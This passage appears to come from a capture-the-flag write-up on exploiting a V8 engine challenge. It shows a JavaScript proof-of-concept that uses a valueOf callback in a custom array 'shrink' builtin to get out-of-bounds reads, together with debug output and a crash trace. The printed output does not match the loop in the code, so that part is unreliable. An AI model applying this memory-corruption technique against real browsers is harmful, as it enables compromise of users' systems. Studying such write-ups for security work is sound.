 ```js
           0: 0x04ec00044b11 <Object map = 0x4ec001c0f6d>
        1-17: 0x04ec00000741 <the_hole_value>
 }
 ...
 ```

Notice that the length is 1999, while the number of elements in the JSArray is only 18.

If I try and access one index past the end of the elements list, I get a crash:
```js
d8> arr[18]
abort: Unexpected instance type encountered

==== JS stack trace =========================================

    0: ExitFrame [pc: 0x61c163bedbf6]
    1: StubFrame [pc: 0x61c163b5398f]
    2: Stringify(aka Stringify) [0x4ec0004570d] [d8-stringify:~23] [pc=0x61c1c3b401ce](this=0x04ec00000069 <undefined>,0x04ec00000971 <Map(FREE_SPACE_TYPE)>#0#,4)
    3: InternalFrame [pc: 0x61c163b4e01c]
    4: EntryFrame [pc: 0x61c163b4dd5f]
```

Which seems good?

My teammates also shared this writeup [https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) in which they are given an out-of-bounds primitive and use an array of double type elements to do out-of-bounds reads and writes. I borrowed some helper methods for converting between floats and integers from them.

Here is a modified PoC using doubles and the helper methods:
```js
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { f64_buf[0] = val; return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); }
function itof(val) { u64_buf[0] = Number(val & 0xffffffffn); u64_buf[1] = Number(val >> 32n); return f64_buf[0]; }

arr = new Array(2000).fill(1.1);
evil = { valueOf() { for (let i = 0; i < 1999; i++) { arr.pop(); } return 1999; } };
for (let i = 17; i < 27; i++) { console.log('before ' + i + ': 0x' + ftoi(arr[i]).toString(16)); }
arr.shrink(evil)
for (let i = 17; i < 27; i++) { console.log('after ' + i + ': 0x' + ftoi(arr[i]).toString(16)); }
```

this produces output that looks like this:
```
d8> before 0: 0x3ff199999999999a
before 1: 0x3ff199999999999a
before 2: 0x3ff199999999999a
before 3: 0x3ff199999999999a
before 4: 0x3ff199999999999a
before 5: 0x3ff199999999999a
before 6: 0x3ff199999999999a
before 7: 0x3ff199999999999a
before 8: 0x3ff199999999999a
before 9: 0x3ff199999999999a
before 10: 0x3ff199999999999a
before 11: 0x3ff199999999999a
before 12: 0x3ff199999999999a
before 13: 0x3ff199999999999a
before 14: 0x3ff199999999999a
before 15: 0x3ff199999999999a
before 16: 0x3ff199999999999a
before 17: 0x3ff199999999999a
```